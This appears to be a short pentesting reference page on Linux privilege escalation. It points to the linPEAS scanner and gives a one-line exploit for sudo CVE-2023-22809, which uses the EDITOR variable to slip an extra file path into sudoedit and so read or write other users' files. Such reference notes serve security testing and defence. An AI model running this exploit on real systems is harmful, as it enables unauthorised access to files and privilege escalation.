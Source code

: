 ```yaml
---
description: A list of Privilege Escalation Techniques for Linux.
---
```


# Linux

## Local Privesc Scanner

### linPEAS

LinPEAS is a script that search for possible paths to escalate privileges on **Linux/Unix/MacOS** hosts.&#x20;

> **Github:** [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Sudo vulnerabilities

### **Sudo version <= 1.9.12p1**

* [CVE-2023-22809](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

Allow a user that have `sudo` privileges for `sudoedit` to read/write all files of another user.

```bash
pezzz@flop.py:~$ EDITOR="vi -- </path/file>" sudo -u <user> sudoedit <file>
```

